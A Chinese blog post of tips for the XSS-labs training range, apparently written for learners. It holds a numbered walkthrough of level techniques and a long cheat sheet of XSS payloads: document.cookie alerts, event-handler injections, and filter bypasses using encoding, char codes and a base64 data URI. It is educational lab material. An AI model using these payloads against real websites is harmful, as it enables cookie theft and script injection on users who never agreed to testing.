 ```yaml
---
layout:     post
title:      XSS
subtitle:   教程
date:       2024-10-27
author:     白泽
header-img: img/post-bg-tree.jpg
catalog: true
tags:
    - XSS
    - 靶场
    - 教程
---
```


# XSS-labs通关技巧

1. `GET 参数连接<script>alert()</script>`
2. `根据源代码闭合标签 <'""'>`
3. `onlick=alert() `
4. ` onfocus=javascript:alert() onfoucus=alert(0) `  
5. `<>`-str_replace
6. `大小写`-strtolower
7. `Unicode编码`
8. `a href=javascript:alert()`
9. `双写`
10. `<img src= onerror=alert()>  img src=  onmouseover=alert()> img src= onmouseout=alert()> `
11. 以下为隐藏传参
12. `隐藏输入框`
13. `修改referer头`
14. `修改User-Agen`
15. `修改cookie`
16. `嵌入网站，触发xss`
17. `ng-include:'level1.php'`
18. `%0a与%0b`-空格绕过
19. `<iframe src="javascript:alert(1)"></iframe>`
20. `exif xss`使用图片马
21. `embed`拼接加绕过
22. `//`注释

## 总结

1. `htmlspecialchars`将预定义的字符数转义为HTML实体，详细为`&` ` ""` `'` `<` `>`**注意单引号不转义**

2. `javascript:alert()`使用JAVA的伪协议

3. `strtolower`大小写

4. `str_replace`替换

5. `ng-include`指令用于包含外部的 HTML 文件。包含的内容将作为指定元素的子节点。

   `ng-include`属性的值可以是一个表达式，返回一个文件名。

   默认情况下，包含的文件需要包含在同一个域名下

```html
<script>alert(document.cookie)</script>
<script>prompt(document.cookie)</script>
<script>confirm(/xss/)</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>       //Unicode码  还有十六进制 URL编码 JS编码 HTML实体编码等等
<script>alert/*dsa*/(1)</script>   //绕过黑名单
<script>(alert)(1)</script>        //绕过黑名单
<svg/onload=alert(1)>
<body onload=alert("XSS")>

<svg onload="alert(1)">       //过滤 script时
"><svg/onload=alert(1)//

<input value="1" autofocus onfocus=alert(1)  x="">   //过滤 script时

<a href="" onclick="alert(1111)">

<iframe src="javascript:alert(1)"></iframe>      //过滤 script时

<svg onmousemove="alert(1)">

<input name="name" value=”” onmousemove=prompt(document.cookie) >

<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>

<input type = "button"  value ="clickme" onclick="alert('click me')" />

<BODY onload="alert('XSS')">

<IMG SRC="" onerror="alert('XSS')">
<IMG SRC="" onerror="javascript:alert('XSS');">

制表符 绕过滤器的
<IMG SRC="" onerror="jav&#x9ascript:alert('XSS');">
1.<iframe src=javascript:alert(1)></iframe> //Tab
2.<iframe src=javascript:alert(1)></iframe> //回车
3.<iframe src=javascript:alert(1)></iframe> //换行
4.<iframe src=javascript:alert(1)></iframe> //编码冒号
5.<iframe src=javascript:alert(1)></iframe> //HTML5 新增的实体命名编码，IE6、7下不支持
<a href=javascript:\u0061\u006C\u0065\u0072\u0074(1)>Click</a>
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%43%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)>Click</a>
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%43%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)>Click</a>

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWHNzVGVzdCIpOzwvc2NyaXB0Pg=="></object>

"><img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,59))">

<script>onerror=alert;throw document.cookie</script>
<script>{onerror=alert}throw 1337</script>         //过滤 单引号，双引号，小括号时   没过滤script

<a href="" onclick="alert(1111)">
' οnclick=alert(1111) '   //鼠标点击事件执行JavaScript语句

```

本文章声明：分享内容仅用于网安爱好者之间的技术讨论，禁止用于违法途径，所有渗透都需获取授权！否则需自行承担，作者不承担相应的后果
